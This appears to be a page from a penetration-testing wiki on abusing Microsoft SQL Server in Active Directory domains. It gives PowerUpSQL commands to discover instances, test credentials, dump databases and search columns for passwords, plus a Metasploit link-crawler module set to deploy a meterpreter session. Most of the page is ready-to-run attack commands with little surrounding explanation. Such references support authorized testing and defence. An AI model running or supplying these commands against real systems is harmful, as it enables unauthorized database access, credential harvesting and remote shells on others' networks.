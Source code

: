 # MSSQL AD Abuse

### **MSSQL Enumeration / Discovery** <a href="#mssql-enumeration-discovery" id="mssql-enumeration-discovery"></a>

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

The PowerShell module [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is very useful in this case.

Copy

```bash
Import-Module .\PowerupSQL.psd1
```

#### Enumerating from the network without domain session <a href="#enumerating-from-the-network-without-domain-session" id="enumerating-from-the-network-without-domain-session"></a>

{% code overflow="wrap" %}
```bash
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#If you don't have an AD account, you can try to find MSSQL scanning via UDP
#First, you will need a list of hosts to scan
Get-Content c:\temp\computers.txt | Get-SQLInstanceScanUDP –Verbose –Threads 10

#If you have some valid credentials and you have discovered valid MSSQL hosts you can try to login into them
#The discovered MSSQL servers must be on the file: C:\temp\instances.txt
Get-SQLInstanceFile -FilePath C:\temp\instances.txt | Get-SQLConnectionTest -Verbose -Username test -Password test
```
{% endcode %}

#### Enumerating from inside the domain <a href="#enumerating-from-inside-the-domain" id="enumerating-from-inside-the-domain"></a>

{% code overflow="wrap" %}
```bash
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#Get info about valid MSQL instances running in the domain
#This looks for SPNs that start with MSSQL (not always is a MSSQL running instance)
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose 

#Test connections with each one
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose

#Try to connect and obtain info from each MSSQL server (also useful to check connectivity)
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Get DBs, test connections and get info in Oneliner
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```
{% endcode %}

### &#x20; <a href="#mssql-basic-abuse" id="mssql-basic-abuse"></a>

### MSSQL Basic Abuse <a href="#mssql-basic-abuse" id="mssql-basic-abuse"></a>

#### Access DB <a href="#access-db" id="access-db"></a>

{% code overflow="wrap" %}
```bash
#Perform a SQL query
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select @@servername"

#Dump an instance (a lotof CVSs generated in current dir)
Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

# Search keywords in columns trying to access the MSSQL DBs
## This won't use trusted SQL links
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "password" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```
{% endcode %}

### Metasploit

You can easily check for trusted links using Metasploit.

Copy

{% code overflow="wrap" %}
```batch
#Set username, password, windows auth (if using AD), IP...
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```
{% endcode %}

Notice that Metasploit will try to abuse only the <mark style="color:orange;">**`openquery()`**</mark> function in MSSQL (so, if you can't execute a command with `openquery()` you will need to try the `EXECUTE` method **manually** to execute commands, see more below.)
